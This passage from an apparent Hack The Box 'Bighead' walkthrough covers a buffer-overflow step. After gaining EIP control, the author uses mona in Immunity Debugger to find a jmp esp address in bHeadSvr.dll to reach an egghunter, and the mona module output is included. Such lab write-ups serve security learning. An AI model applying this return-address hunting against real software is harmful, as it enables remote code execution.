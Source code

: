 #### Nice, We control EIP, Now we need to find a real address to overwrite EIP with. Since the egghunter will be located on the stack we need to find a `jmp esp` instruction to make it jmp to the egghunter and execute it. To do this we will use mona. `!mona jmp -r ESP`. It will create another file in `C:\logs` called `jmp.txt`. We need to make sure that the address we choose will work on the target machine, So I used one of the addresses from the `dll` of the server itself `bHeadSvr.dll`. I chose the first one :
![](/images/hackthebox/bighead/68.png)
<br>
<br>
![](/images/hackthebox/bighead/69.png)
#### Full Output :
```
================================================================================
  Output generated by mona.py v2.0, rev 585 - Immunity Debugger
  Corelan Team - https://www.corelan.be
================================================================================
  Process being debugged : BigheadWebSvr (pid 5532)
  Current mona arguments: jmp -r ESP
================================================================================
  2019-04-25 02:15:27
================================================================================
-----------------------------------------------------------------------------------------------------------------------------------------
 Module info :
-----------------------------------------------------------------------------------------------------------------------------------------
 Base       | Top        | Size       | Rebase | SafeSEH | ASLR  | NXCompat | OS Dll | Version, Modulename & Path
-----------------------------------------------------------------------------------------------------------------------------------------
 0x74c70000 | 0x74e61000 | 0x001f1000 | True   | True    | True  |  False   | True   | 10.0.17763.1 [KERNELBASE.dll] (C:\Windows\System32\KERNELBASE.dll)
 0x771f0000 | 0x77269000 | 0x00079000 | True   | True    | True  |  False   | True   | 10.0.17763.1 [sechost.dll] (C:\Windows\System32\sechost.dll)
 0x00400000 | 0x00413000 | 0x00013000 | False  | False   | False |  False   | False  | -1.0- [BigheadWebSvr.exe] (C:\bighead\BHWS_Backup\BigheadWebSvr.exe)
 0x62500000 | 0x62510000 | 0x00010000 | False  | False   | False |  False   | False  | -1.0- [bHeadSvr.dll] (C:\bighead\BHWS_Backup\bHeadSvr.dll)
 0x75510000 | 0x755a8000 | 0x00098000 | True   | True    | True  |  False   | True   | 10.0.17763.1 [KERNEL32.DLL] (C:\Windows\System32\KERNEL32.DLL)
```